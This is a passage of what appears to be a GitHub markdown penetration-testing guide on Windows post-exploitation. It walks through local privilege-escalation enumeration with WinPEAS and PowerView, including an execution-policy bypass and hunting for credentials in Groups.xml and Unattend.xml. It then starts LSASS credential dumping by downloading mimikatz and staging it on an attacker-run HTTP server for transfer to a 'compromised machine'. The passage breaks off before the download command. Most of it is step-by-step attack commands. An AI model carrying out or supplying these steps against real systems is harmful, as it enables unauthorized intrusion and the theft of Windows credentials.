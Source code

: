 ### What to do if I don't have any privileges?
No worries, we can enumerate the local machine using `Winpeas.exe` and `Powerview.ps1`

#### Using WinPEAS for Privilege Escalation Enumeration
Download `WinPEAS.exe` and execute it to look for misconfigurations and privilege escalation vectors. There could be clear text credentials or encoded passwords in files such as `Groups.xml` or if the system was installed using an unattended installation winpeas will refer we to something like `Unattend.xml`
```sh
winpeas.exe > output.txt
```

#### Using PowerView for Enumeration
Load PowerView and use it to gather information about the system and domain.
```sh
powershell -ep bypass -File .\PowerView.ps1
Get-NetLocalGroupMember -Group "Administrators"
Get-NetUser # Lists domain users.
Get-NetGroupMember # Lists group members.
Find-LocalAdminAccess # Finds where a user has admin access.
Invoke-ShareFinder # Locates shared network resources.
```

---

## Credential Dumping

### Dumping Hashes from LSASS
Our compromised machine most likely dont have `mimikatz.exe` installed because it's not normal for users to have malware in their machine right? Let's try uploading mimikatz to the machine we compromised.

If you havent had `mimikatz` in your Attacker machine yet, we can try going to `@gentilkiwi` mimikatz repository, or we can copy the following link
```sh
https://github.com/gentilkiwi/mimikatz
```
After going to the repo, go to releases and download any compressed file to your liking, in this case we'll be using a `.zip` instead. So click on the file `mimikatz_trunk.zip` and extract it to a directory called `mimikatz_trunk`

```sh
unzip mimikatz_trunk.zip -d mimikatz_trunk
```
After unziping our mimikatz file, we need to run an HTTP server to be able to upload our files to the compromised machine, we will go to the x64 directory as we have information that the machine we compromised is running an X64 architecture!
```sh
cd mimikatz_trunk/x64/
ls 
```
we should be looking at files such as
```sh
mimidrv.sys  mimikatz.exe  mimilib.dll  mimispool.dll
```
We will be needing these files for our credential dumpings! so let's run our HTTP Server with either the following commands
```sh
python -m SimpleHTTPServer 8000

#Or if we are running python3 use the command below
python3 -m http.server 8000
```
If we see the prompt like `serving http server at port 8000` we are ready to download the files, go to the compromised machine and write
```
```